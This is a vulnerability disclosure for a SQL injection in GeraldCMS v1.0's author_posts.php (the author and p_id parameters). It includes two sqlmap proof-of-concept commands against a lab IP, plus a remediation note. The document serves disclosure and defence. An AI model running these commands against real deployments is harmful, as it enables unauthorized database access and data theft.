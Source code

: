 # GeraldCMS - SQL Injection (Author Posts)

### Vendor Homepage:

> https://github.com/

### Software Link:

> [GeraldCMS](https://github.com/geraldib/GeraldCMS)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /GeraldCMS-main/author_posts.php

> Two parameters `author` and `p_id` within author_posts.php are vulnerable to SQL Injection.


![author](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/2.1GeraldCMS-Sqli-Author_Posts_author.png)

![p_id](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/2.2GeraldCMS-Sqli-Author_Posts_pid.png)


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Use `sqlmap` with `-u` option to exploit the vulnerability:

```
python sqlmap.py -u "http://172.16.8.56/GeraldCMS-main/author_posts.php?author=Gerald&p_id=125" -p author --batch --dbms MYSQL --is-dba
```
```
python sqlmap.py -u "http://172.16.8.56/GeraldCMS-main/author_posts.php?author=Gerald&p_id=125" -p p_id  --batch --dbms MYSQL --is-dba
```


## Recommendations

When using this GeraldCMS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
